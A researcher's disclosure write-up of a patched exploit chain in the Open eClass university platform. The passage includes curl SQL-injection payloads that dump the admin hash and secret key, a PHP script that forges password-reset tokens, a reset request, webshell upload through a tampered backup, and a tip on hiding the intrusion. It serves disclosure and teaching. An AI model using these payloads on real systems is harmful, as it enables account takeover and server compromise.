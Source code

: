 ```yaml
---
title: "E-class < 3.6 code execution"
author: "Nikos Filippakis"
tags: sql injection eclass
---
```


I've been planning to do this write-up for a while now, but I decided to wait for at least 40 days after reporting this bug before disclosing it, as it concerns the e-class software used by most universities in Greece. The bug reported here has indeed been fixed on the same day that I reported it, so the first part of this shouldn't be possible anymore. I'm also glad to see my own university's e-class has been updated to the latest version, which is safe against this.  
The e-class software I'm referring to is **"open eclass"**, which can be found at <http://www.openeclass.org>. Their Github is [gunet/openeclass](https://github.com/gunet/openeclass).

## Part 1: SQL injection
This chain of exploits depends on this first exploit to work. This is the one that I created an issue for and that has since been fixed. The rest aren't that important.  
The bug resides in the "*attendance*" module of e-class. Modules can be enabled or disabled on each class separately, and that is checked on the current class you're at when you try to access the module. Therefore to take advantage of this bug you'd have to find a class with the *attendance* module enabled. You can see the relevant issue or the diff of the patch which makes it obvious what the SQL injection was. The issue is [issue #14](https://github.com/gunet/openeclass/issues/14) and the patch is commit [fce0882](https://github.com/gunet/openeclass/commit/fce08828cf82ab4afd4a21bee8d86f31526f240b).

The SQL injection entry point is the POST parameter `attendance_id` which is appended to two different SQL queries without sanitization. At first I thought I would have to write something in `attendance_id` that would lead into both lines being valid queries while injecting some SQL in one of them, which seemed a bit tricky. Thankfully that was not the case, and simply injecting some code in order for one of them to be valid resulted in me being able to retrieve whatever I want from the database. The other query would simply return null. (:

Below you can see a curl request that retrieves the admin's password:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHER' at line 2", sqlstate:"1064", errornum:"42000", 	statement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 11 UNION SELECT id FROM user) UNION SELECT lol.username AS id, lol.password AS surname, 3 FROM user lol WHERE lol.id = 1 AND 432235211 NOT IN (SELECT username FROM user ORDER BY surname", 	elapsed:1517578226.0001</i></p>[[{"id":"admin","surname":"$2a$08$rSgapF0VucQFwc0WsOmdy.7rybjOkxtsYUoG.zVMqpGM5wr3GCnkq","givenname":"3"}],null]%       
```

Ouch.

## Part 2: Doing something with the SQL injection

The passwords are encrypted, seemingly with bcrypt, which a quick pass through the source code confirms. There's no easy way to decrypt the admin password. Let's see what else we can pull from the database.

Another table of interest is the `config` table. Its fields are `key` and `value` and it contains specific tuples, inserted when e-class is installed. Most entries are unremarkable, however one stands out: the key is `code_key` and the value is 32 bytes, read from /dev/urandom and then base64 encoded. The function that generates the key is called `generate_secret_key`, so it sounds rather promising. We can easily retrieve its value, as before:

```bash
$ curl -X POST \
  'http://localhost:8080/modules/attendance/?course=TMA101' \
  -H 'X-Requested-With: xmlhttprequest' \
  -b 'PHPSESSID=12p9fb8lf8fmth3f9nphstesa3' \
  -F assign_type=3 \
  -F 'attendance_id=1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user'
<p>In file <b>/var/www/example.com/public_html/modules/attendance/index.php</b> on line <b>51</b> : <i>Unable to execute statement:"You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ') UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.' at line 2", sqlstate:"1064", errornum:"42000", laterstatement:"SELECT uid AS id, givenname, surname FROM user, attendance_users                                         WHERE attendance_users.uid = user.id AND attendance_id = 1 UNION SELECT id FROM user) UNION SELECT lol.key AS id, lol.value AS surname, 3 FROM config lol WHERE lol.key = "code_key" AND 32235211 NOT IN (SELECT username FROM user ORDER BY surname", laterelapsed:1518182515.0001</i></p>[[{"id":"code_key","surname":"ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=","givenname":"3"}],null]%)'")'
```

Let's see where this secret key is used.

## Part 3: Using the secret key

Besides the points where it's created, `code_key` is referenced in two other places in the code: the `token_generate` method and the corresponding `token_validate` method. The first one hashes a given string, optionally appending the timestamp, to generate an HMAC with the `code_key` as the key of the HMAC. The second one takes a message, a token and the number of seconds for which the token is valid if the message also contains a timestamp. It simply hashes the message again to confirm the HMAC is valid and checks if the time passed since the generation of the token is less that the allowed time, returning whether the token is valid.

There are 23 instances throughout the code of using `token_generate`, most are useless for proceeding further. As I expected though, it is also used to generate the token for resetting a user's password when they have forgotten it. The call that generates the token is:

```php
            $text .= $urlServer . "modules/auth/lostpass.php?u=$data[res_first_attempt]->id&h=" .
                    token_generate('password' . $data['res_first_attempt']->id, true);
```

We see that the token is generated with the string 'password1' where 1 is the user ID (1 in the case of the admin, the first user), using a timestamp.  
We can easily generate the token ourselves with the following PHP snippet:

```php
<?php
function token_generate($info, $need_timestamp = false) {
    if ($need_timestamp) {
        $ts = sprintf('%x-', time());
    } else {
        $ts = '';
    }
    $code_key = 'ZTW+TNpoJr2FTViENRRMcLy+kW2sza\/PJyrb542mx1s=';
    return $ts . hash_hmac('ripemd160', $ts . $info, $code_key);
}

echo(token_generate("password1", true) . "\n");
?>
```

This way we have a token for resetting the admin's password. (: Running this script now, I get the hash `5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576`.

This is different from clicking on the 'forgotten password' link and somehow retrieving the generated token, which is also sent to the admin's email. This generated token isn't stored anywhere on the database, which surprised me, as the first table I looked for in the database was a table that would store these tokens. Instead, the generated token is a signed piece of information that says, 'user x requested a token on this date'. So you can reset a user's password with such a token if you have the way to generate it, even if you never requested it!

We can request a password change as such:

```bash
$ curl -X POST \                                                                                                                                                                   
  'http://localhost:8080/modules/auth/lostpass.php' \      
  -F 'u=1' \                             
  -F 'h=5a8438bf-97dc07f1a8f8e15f3dbe52c3e9d4fe12ef86f576' \                                                                                                                   
  -F 'newpass=admin123' \
  -F 'newpass1=admin123' 
```

## Part 4: Achieving code execution

We can now login with our new credentials! Hopefully the real admin won't try to also login for a while. :)

The admin panel offers many interesting tools, however none allow you to explicitly execute PHP or SQL or anything of the sort. One of the tools, however, does allow you to upload a backup of a class, including all uploaded documents etc. The backup is essentially a zip archive that includes all files that the class contained, plus a bunch of serialized PHP objects for the class metadata.

It's pretty straightforward to add some PHP code for a shell, then. We can download a backup for a class, unzip it, change the `index.php` or add our own PHP file, and use the admin panel to restore the backup. You could even try to do something with the serialized objects, if you were feeling adventurous.

Yay, we now have a shell! You can also read the SQL database credentials now from the appropriate file. One of the first things you could do at this point would be to restore the old (encrypted) admin password which we conveniently retrieved in the first step, so the admin can use the normal credentials to login once again and doesn't notice anything. Other than that, anything is possible!

## Remarks

I was surprised by how secure e-class was overall other than this exploit, which took me some time to find. I had seen an older version of e-class as part of the University security course which was full of security holes, so it was nice to see that almost all of them have been patched as well as the response time once this one was found. There might have been a few other bugs but nothing that could be leveraged like this one, though surely someone with more PHP experience could find something that I didn't. I've been reading the deserialization engine is exploitable but I didn't notice any points a student can provide a serialized object. Of course, ditching PHP altogether would probably be best, but eh, that's easy for me to say.
